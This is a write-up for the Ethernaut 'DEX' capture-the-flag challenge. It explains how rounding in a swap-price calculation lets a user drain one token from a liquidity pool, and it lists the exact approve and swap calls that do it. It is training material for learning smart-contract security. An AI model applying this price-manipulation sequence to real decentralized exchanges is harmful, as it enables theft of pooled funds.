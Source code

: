 # Solution to challenge 22 : DEX

Our goal here is to drain all of at least 1 of the 2 tokens from the contract. 

The functions `setTokens()` and `addLiquidity()` can't be exploited because they are protected by the modifier `onlyOwner`.

The vulnerability is within the `getSwapPrice()` function, calculating the ``tokenAmount`` :

![](https://github.com/Kuqow/ethernaut-solutions-Kuqow/blob/main/Pictures/DEX.png)

In Solidity, **the division rounds to zero**, thus we can progressively decrease the balance of one selected token by doing multiple swaps. Let's see how many swaps are required :

```
DEX TOKEN-1    DEX TOKEN-2   |  USER TOKEN-1    USER TOKEN-2  |  SWAP TOKEN CALC
----------------------------------------------------------------------------------
	100           100              10               10              10
	110            90               0               20              24 (24.44)
	 86           110              24                0              30 (30.70)
	110            80               0               30              41 (41.25)
	 69           110              41                0              65 (65.36)
	110            45               0               65              158 (158.88)
	  0            90             110               20              X
```        

For the last swap, we need to calculate the exact amount, otherwise the `transferFrom()` will fail. 
At this point the token amount calculation returns **158 (65\*110/45)** :

- For **65** TOKEN-2  we can get **158** TOKEN-1
- How many TOKEN-2 do we need to receive exactly **110** TOKEN-1 ? 65\*110/158 = 45
- Meaning that we need to swap **45** TOKEN-2 in order to receive 110 **TOKEN**-1 and completely drain the pool to **0 TOKEN-1**

Summary of steps :

1. Approve the spending of tokens : `contract.approve(instance, 1000)`, approve a big amount so you don't have to approve it again later
2. Swap `contract.swap(AddrTOKEN1, AddrTOKEN2, 10)`
3. Swap `contract.swap(AddrTOKEN2, AddrTOKEN1, 20)`
4. Swap `contract.swap(AddrTOKEN1, AddrTOKEN2, 24)`
5. Swap `contract.swap(AddrTOKEN2, AddrTOKEN1, 30)`
6. Swap `contract.swap(AddrTOKEN1, AddrTOKEN2, 41)`
7. Swap `contract.swap(AddrTOKEN2, AddrTOKEN1, 45)`
8. Submit the instance !